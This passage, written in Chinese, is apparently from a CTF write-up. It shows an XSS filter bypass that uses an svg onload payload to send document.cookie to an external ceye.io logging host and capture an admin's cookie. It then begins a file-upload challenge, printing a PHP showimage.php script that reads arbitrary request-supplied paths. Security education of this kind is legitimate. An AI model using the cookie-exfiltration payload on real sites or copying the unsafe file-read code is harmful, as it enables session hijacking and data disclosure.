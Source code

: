 在`onload`前面有个空格，也就是说如果不添加空格，就可以直接绕过去，这也就是我的hint

> ban list中有hint，缘，妙不可言

那事件有了，用啥标签呢，搜一下，发现有个`svg`标签可以用，那怎么绕过空格？

```
<svg/onload="document.location='http://4ut4mi.ceye.io/?'+document.cookie">
```

然后先写一下留言，自己点一下，可以在ceye中看到自己的cookie已经发送成功了

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118010916.png)那么接下来就是发送给管理员了，右键获取一下id发送出去

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118011107.png)

可以在ceye中看到flag

![](https://img-cjm00n.oss-cn-shenzhen.aliyuncs.com/20191118011159.png)

payload不唯一，还有很多可以利用的标签和事件，这里只是提供一种我的思路，遗憾的是比赛的时候并没有看到大家成功打到cookie，可能目前各大练习平台上xss类的题目较少的原因吧，平时遇到的机会不太多，就讲详细点，有空的可以复现一下或者研究其他的payload

## Unserialize？

1 solved

### 解题思路

打开题目可以看到是一个相当简陋的文件上传，可以自己fuzz一下什么后缀是被ban掉的（当然后来我把源码放上去了，大家康康源码，搜索引擎搜一搜hint应该就知道怎么做了...）

可以发现最后是ban掉了`php|pht|html|htaccess|xml`，其他文件可以成功上传，上传之后可以看到文件的保存路径。在这个页面F12一下还可以看到一个`showimage.php`(当然给了源代码之后就不用看到这个信息也可以了)

`showiamge.php`中代码如下：

```php
<?php
    include 'config.php';
    if(!isset($_REQUEST['path'])){
        echo "please tell me the path through the key \"path\"";
    }
    else{
        if(file_exists($_REQUEST['path']))
        {
            if(preg_match('/flag/i', $_REQUEST['path']))
            {
                die('nonono');
            }
            else
            {
                header('Content-Type:image/jpeg');
                $filename = $_REQUEST['path'];
                $handler = fopen($filename, "r");
                $res = fread($handler, filesize($filename));
                fclose($handler);
                echo $res;
            }
        }
        else{
            echo "Ooops, we can not found this file!";
        }
    }
```
